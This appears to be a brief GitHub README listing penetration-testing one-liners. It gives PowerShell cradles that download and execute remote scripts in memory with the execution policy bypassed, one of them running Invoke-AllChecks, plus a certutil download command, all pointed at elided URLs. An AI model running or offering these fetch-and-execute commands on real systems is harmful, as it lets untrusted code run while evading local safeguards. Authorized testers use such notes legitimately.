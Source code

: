 # tools
Helpful pentest tools

Simple Download:
IEX (New-Object Net.WebClient).DownloadString(‘http://...’)

In-Memory:
powershell -nop -exec bypass -c “IEX (New-Object Net.WebClient).DownloadString(‘http://...’); Invoke-AllChecks”

certutil -urlcache -split -f "http://..."
